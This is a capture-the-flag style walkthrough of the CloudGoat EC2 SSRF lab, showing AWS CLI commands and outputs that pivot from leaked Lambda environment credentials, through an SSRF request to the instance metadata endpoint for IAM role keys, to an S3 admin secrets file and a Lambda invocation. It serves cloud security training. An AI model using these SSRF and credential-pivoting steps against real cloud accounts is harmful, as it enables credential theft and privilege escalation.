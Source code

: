 ```yaml
---
title:  "CloudGoat: EC2 Server-side request forgery (SSRF)"
date:   2024-03-26
tags: cloudsecurity cybersecurity aws
last_modified_at: 2024-03-26
---
```


This scenario, we will start as the `Solus` user which has ReadOnly permission on Lambda function, and the goal is invoking the lambda function.

### List Lambda function
```shell
aws --profile solus lambda list-functions
```
This command will list all lambda functions in our account

Result:
```json
{
    "Functions": [
        {
            "FunctionName": "cg-lambda-ec2_ssrf_###",
            "FunctionArn": "arn:aws:lambda:us-east-1:###:function:cg-lambda-ec2_ssrf_###",
            "Environment": {
                "Variables": {
                    "EC2_ACCESS_KEY_ID": "<ec2-access-key-id>",
                    "EC2_SECRET_KEY_ID": "<ec2-secret-key-id>"
                }
            }
        }
    ]
}
```

You will see the credentials from environment variables. This credentials allow us to get EC2 instance detail.

### List EC2 instances
With previous credentials, we created new user profile called `cg-lambda` and we are able to list all EC2 instances with this user.
```shell
aws --profile cg-lambda ec2 describe-instances
```
This command will list all EC2 instances in your account.

Result:
```json
{
    "Reservations": [
        {
            "Groups": [],
            "Instances": [
                {
                    "ImageId": "ami-0a313d6098716f372",
                    "InstanceId": "<instance-id>",
                    "InstanceType": "t2.micro",
                    "PublicDnsName": "<public-dns-name>",
                    "PublicIpAddress": "<public-ip-address",
                    "State": {
                        "Code": 16,
                        "Name": "running"
                    }
                }
            ]
        }
    ]
}
```
You will get an EC2 instance which has a vulnerability that are allow us to request metadata of the instance itself and expose it credentials.
### Get credentials from the compromised instance
When we request the instance IP Address, we will get an error.
```
TypeError: URL must be a string, not undefined
    at new Needle (/node_modules/needle/lib/needle.js:151:11)
    at Function.module.exports.(anonymous function) [as get] (/node_modules/needle/lib/needle.js:846:12)
    at /home/ubuntu/app/ssrf-demo-app.js:32:12
    at Layer.handle [as handle_request] (/node_modules/express/lib/router/layer.js:95:5)
    at next (/node_modules/express/lib/router/route.js:149:13)
    at Route.dispatch (/node_modules/express/lib/router/route.js:119:3)
    at Layer.handle [as handle_request] (/node_modules/express/lib/router/layer.js:95:5)
    at /node_modules/express/lib/router/index.js:284:15
    at Function.process_params (/node_modules/express/lib/router/index.js:346:12)
    at next (/node_modules/express/lib/router/index.js:280:10)
```
This error tells us that it can receive the parameter name `URL` and we will use this paramter to get the metadata.

Go to

`http://<instance-ip-address>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/`

And it will show you the role `cg-ec2-role-ec2_ssrf_###`. This role is the role of the instance profile that are attached with this instance.

Now, we can get the credentials of the role by entering

`http://<instance-ip-address>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/<role-name>`

When you put the role name in this url, it will return you the credentials of this role.

This role allow us to read and download files from s3.

### Get admin credentials from S3
We created a new user profile from previous credentials name `cg-ec2`, and we will list all bucket in S3.

```shell
aws --profile cg-ec2 s3 ls
```
This command will list all the bucket in S3

Result:
```
2024-03-26 19:06:55 cg-secret-s3-bucket-ec2-ssrf-###
```
We got a bucket `cg-secret-s3-bucket-ec2-ssrf-###`

To see all the files in the `cg-secret-s3-bucket-ec2-ssrf-###` bucket
```shell
aws --profile cg-ec2 s3 ls cg-secret-s3-bucket-ec2-ssrf-###
```

Result:
```
2024-03-26 19:07:03         62 admin-user.txt
```
In this bucket, there is a file name `admin-user.txt`.

To download `admin-user.txt` from S3 to our local computer
```shell
aws --profile cg-ec2 s3 cp s3://cg-secret-s3-bucket-ec2-ssrf-###/admin-user.txt ./
```

Now, we got the `admin-user.txt` file. Inside the file, we will get another credentials which allows us to invoke the lambda functions

### Invoke Lambda Function
We created a new user profile name `cg-admin` from the credentials in the `admin-user.txt` file.

We knew what lamba function name from previous section, so we will invoke by this command.
```shell
aws --profile cg-admin lambda invoke --function-name cg-lambda-ec2_ssrf_### ./out.txt
```
This command will return the result in the file name `out.txt`

Result:
```json
{
    "StatusCode": 200,
    "ExecutedVersion": "$LATEST"
}
```

To check that we succeed,
```shell
cat out.txt
```

Result:
```
"You win!"
```

Yeah, you win. Congratulations 🎉🎉🎉
